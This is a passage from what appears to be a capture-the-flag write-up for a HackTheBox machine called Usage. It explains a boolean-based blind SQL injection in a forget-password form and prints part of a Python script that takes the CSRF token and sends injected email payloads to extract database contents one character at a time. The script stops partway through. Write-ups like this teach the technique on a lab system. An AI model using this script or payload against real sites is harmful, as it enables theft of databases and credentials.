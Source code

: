 ![first character of current database is u](/assets/images/Usage/first-char-of-current-database-is-u.png)

Now I have a way to extract data from the database, so I will create a python script to bruteforce some queries. I will start with database(). This python scripts does a lot of things. First, it gets the length from a query specified to do only the necessary requests for the position. Then, it goes for each number between 1 and the length and for each character to extract the data from the database char by char. For every iteration in the loop, it takes the token from the forget-password page because if not it will throw a `419 page expired` status code. With that token, it makes the SQLi request and if the string "We have e-mailed your password" is in the response, it shows the character in console. This is the result:

```python
import sys
import requests
import pdb
import string
import re

s = requests.session()
resetPasswordUrl = "http://usage.htb/forget-password"
characters = string.printable

def get_token():
    r = s.get(resetPasswordUrl)
    token = re.findall('<input type="hidden" name="_token" value="(.*?)">', r.text)[0]
    return token

def sqli_success(response):
    if "We have e-mailed your password" in response.text:
        return True
    else:
        return False

def get_length(db_query):
    token = get_token()
    for i in range(0,10000000):
        post_data = {
            '_token': token,
            'email': "tatasta' or (select length((%s)))=%d-- -" %(db_query, i)
        }
        r = s.post(resetPasswordUrl, data=post_data)
        if sqli_success(r):
```
